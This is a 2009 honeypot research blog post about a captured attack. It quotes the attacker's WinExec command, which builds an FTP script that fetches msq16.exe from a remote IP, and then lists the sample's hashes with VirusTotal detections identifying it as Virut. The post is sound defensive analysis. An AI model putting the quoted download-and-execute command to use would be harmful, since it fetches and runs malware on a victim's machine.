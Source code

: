 ```yaml
---
title: "Iteolih: malicious ftp services"
authors: ["Markus Koetter"]
date: "2009-07-26"
tags: 
  - "iteolih-d90"
---
```


Yesterday, I got an incomplete, but successful, attack on my honeypot, the attackers remote code execution looked like this:  

  

**WinExec("cmd /c echo open 78.1.96.200 4871 > o&echo user 1 1 >> o &echo get msq16.exe >> o")  
ExitThread(0)**  

  

  
As the required part to download the malware to the remotehost was incomplete, I got curious and wanted a copy.  

  
  

I did not expect downloading the malware getting a problem, as all information required was available, including host credentials and filename. But, as the ftp service embedded in the malware is still special, it was a problem.  
The ftp service [is designed to work with the windows ftp client](http://nepenthes.carnivore.it/documentation:modules:downloadhandler:download_ftp "nepenthes, ftp download problems"), the windows ftp only provides active ftp, active ftp does not work on nat if the ftp service port is not on default port 21. 
Apart from that, the ftp service may [fail with 6% of all ports](http://nepenthes.carnivore.it/news_archive:2006#a_common_bug "ftp PORT parsing 0xf").

  

I've had the same problems with nepenthes 3 years ago, but had the slight hope the malware authors might have fixed it in the meantime. Obviously I was wrong.

  

As I was looking for a more general solution than using netcat, I scripted a small ftp client in python, using pythons ftplib. Provided your external ip and a forwarded port range, the client is able to download files via active ftp from _Designed for Windows_ ™ ftp services.

  

You can download the script [here](http://svn.carnivore.it/browser/dump/ftpexe.py "ftpexe.py script"), verified to work with python3.x and 2.x.

  

  

After getting the file,

  

  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  

| msq16.exe |
| --- |
| File size: 550912 bytes |
| MD5   : 8d599fa3d633de4d24dea51af67a61c9 |
| SHA1  : f11188ad9501c1b6cdc051c6cd09776eec5b282e |
| SHA256: 75dd3c06d832a270e0838b3eaf87ad428f3bab16e2599a33c4415dc94362547c |

  

  

I sent it to virustotal.com, here is the report:

  

  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  

| Antivirus | Version | Last Update | Result |
| --- | --- | --- | --- |
| a-squared | 4.5.0.24 | 2009.07.25 | Trojan.Win32.Refroso!IK |
| AhnLab-V3 | 5.0.0.2 | 2009.07.25 | Win32/Virut.B |
| AntiVir | 7.9.0.228 | 2009.07.24 | W32/Virut.AX |
| Antiy-AVL | 2.0.3.7 | 2009.07.24 | \- |
| Authentium | 5.1.2.4 | 2009.07.25 | W32/Virut.7116 |
| Avast | 4.8.1335.0 | 2009.07.25 | Win32:Virtob |
| AVG | 8.5.0.387 | 2009.07.25 | Win32/Virut |
| BitDefender | 7.2 | 2009.07.25 | Trojan.Generic.2200851 |
| CAT-QuickHeal | 10.00 | 2009.07.25 | W32.Virut.Z |
| ClamAV | 0.94.1 | 2009.07.25 | W32.Virut-54 |
| Comodo | 1741 | 2009.07.25 | Worm.Win32.Email-Worm.generic.daisy-1529 |
| DrWeb | 5.0.0.12182 | 2009.07.25 | Trojan.KeyLogger.2526 |
| eSafe | 7.0.17.0 | 2009.07.23 | \- |
| eTrust-Vet | 31.6.6640 | 2009.07.25 | Win32/Virut.7115 |
| F-Prot | 4.4.4.56 | 2009.07.25 | W32/Virut.7116 |
| F-Secure | 8.0.14470.0 | 2009.07.25 | Virus.Win32.Virut.av |
| Fortinet | 3.120.0.0 | 2009.07.25 | W32/Virut.AV |
| GData | 19 | 2009.07.25 | Trojan.Generic.2200851 |
| Ikarus | T3.1.1.64.0 | 2009.07.25 | Trojan.Win32.Refroso |
| Jiangmin | 11.0.800 | 2009.07.25 | Win32/Virut.af |
| K7AntiVirus | 7.10.802 | 2009.07.25 | Virus.Win32.Virut.av |
| Kaspersky | 7.0.0.125 | 2009.07.25 | Virus.Win32.Virut.av |
| McAfee | 5688 | 2009.07.25 | W32/Virut.gen.a |
| McAfee+Artemis | 5688 | 2009.07.25 | W32/Virut.gen.a |
| McAfee-GW-Edition | 6.8.5 | 2009.07.25 | Heuristic.LooksLike.Trojan.Dropper.J |
| Microsoft | 1.4903 | 2009.07.25 | Virus:Win32/Virut.AC |
| NOD32 | 4277 | 2009.07.25 | Win32/Virut.AV |
| Norman |   
 | 2009.07.24 | W32/Virut.AG |
| nProtect | 2009.1.8.0 | 2009.07.25 | Virus/W32.Virut.K |
| Panda | 10.0.0.14 | 2009.07.25 | W32/Virutas.FG |
| PCTools | 4.4.2.0 | 2009.07.25 | Win32.Virut.Gen.4 |
| Prevx | 3.0 | 2009.07.25 | \- |
| Rising | 21.39.52.00 | 2009.07.25 | Win32.Virut.an |
| Sophos | 4.44.0 | 2009.07.25 | W32/Virut-W |
| Sunbelt | 3.2.1858.2 | 2009.07.25 | Win32.Virut.av (v) |
| Symantec | 1.4.4.12 | 2009.07.25 | W32.Virut.W |
| TheHacker | 6.3.4.3.373 | 2009.07.24 | W32/Virut.av |
| TrendMicro | 8.950.0.1094 | 2009.07.25 | PE\_VIRUT.AV |
| VBA32 | 3.12.10.9 | 2009.07.24 | Virus.Win32.Virut.2 |
| ViRobot | 2009.7.25.1853 | 2009.07.25 | Win32.Virut.S |
| VirusBuster | 4.6.5.0 | 2009.07.25 | Win32.Virut.Gen.4 |
